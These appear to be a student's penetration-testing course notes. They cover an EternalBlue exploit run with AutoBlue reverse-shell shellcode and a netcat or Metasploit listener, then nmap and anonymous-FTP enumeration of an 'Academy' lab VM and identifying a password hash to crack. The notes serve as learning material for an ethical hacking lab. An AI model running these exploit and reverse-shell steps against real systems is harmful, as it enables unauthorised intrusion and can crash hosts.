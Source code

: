 **Execution after setup**
```bash
#in autoblue directory -- refer to github if needed
cd shellcode/
`./shell_prep.sh`
[enter LHOST]
[enter LPORT] #heath used 9999 and 2222
[select 1] #for regular shell
[select 0] #for staged payload

cd.. #back to autoblue direcotry
listener_prep.sh #runs listener in metasploit
[insert LHOST] #can use netcat nc -nvlp 9999 [port listed]
[insert LPORT] #9999 2222
[select 1] #for regular shell
[select 0] #for staged payload

#run exploit in autoblue directory
python eternalblue_exploit7.py 192.168.138.135 shellcode/sc_all.bin

>>> #blue screened the maching / took machine down
```

## Academy
**VM Setup: urs/pass `root // tcm`**
- run `dhclient`
- get IP `ip a`
- 192.168.138.129

**Start NMAP**
```bash
nmap -p- -A -T4 192.168.138.129
```
- ftp 21 open > vsftpd 3.0.3
	- note.txt
- ssh 22 open >>> heath immediately erases 22 off the board (for CTFs, in real life can attempt brute force to test for weak passwds and client detection)
- http 80 open> apache httpd 2.4.38 > webserver
	- go look at it in browser for default webpage

Looking at FTP
```bash
ftp 192.168.138.129 #connect
#heath uses anonymous twice for user/pass to check if anonymous login is not disabled
ls #look for juicy
get note.txt #download file(s) from ftp
#can check if file is also stored on web server /note.txt, if so can execute on it 
exit

#back in local
cat note.txt #can see password hash
cd ~ #cd home
hash-identifier #use to get data on hash
[insert hash] #will give possible hashs

#use google: hashcat md5 hash
```
